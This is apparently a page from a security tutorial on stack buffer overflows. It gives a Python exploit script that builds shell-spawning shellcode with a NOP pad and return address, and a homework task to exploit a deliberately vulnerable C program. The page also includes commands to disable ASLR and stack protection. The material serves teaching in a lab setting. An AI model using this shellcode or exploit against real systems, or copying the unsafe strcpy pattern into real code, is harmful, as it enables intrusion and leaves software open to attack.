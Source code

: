 python3./exploit.py
```
shellcode = b"\x48\x31\xd2\x52\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x48\x31\xc0\xb0\x3b\x0f\x05"
buffer = b"\x80\xdf\xff\xff\xff\x7f"
nop = b"\x90"

payload = b""
payload += shellcode
payload += (72 - len(shellcode)) * nop
payload += buffer
payload += b"\n"

print (len(payload))

file = open('payload', 'wb')
file.write(payload)
file.close()

```

It produces a payload file which you can execute together with the vulnerable program as `(cat payload; cat - ) | ./buffer`.

## [Homework](#homework)

### Task description:
* **Step 1**. Write a shellcode which prints out your name/nickname. Remove any NULL bytes and keep the shellcode as short as possible. To write the shellcode you basically only need to know how to use the write() and exit() syscalls<br>
* **Step 2**. Exploit the buffer overflow in the buffer.c program so that as a result, the shellcode you wrote in step 1 would get executed.

**Vulnerable buffer.c program**

**Disable ASLR**: `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`<br>
**Compile program**: `gcc -fno-stack-protector -z execstack buffer.c -o buffer`

buffer.c
```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int foo(char *str)
{
    char buffer[100];
    printf("%p\n",buffer);
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv)
{
    char str[400];

    FILE *secretfile;
    secretfile = fopen("secretfile", "r");
    fread(str, sizeof(char), 300, secretfile);
    foo(str);
    printf("All good\n");
    return 1;
}
```
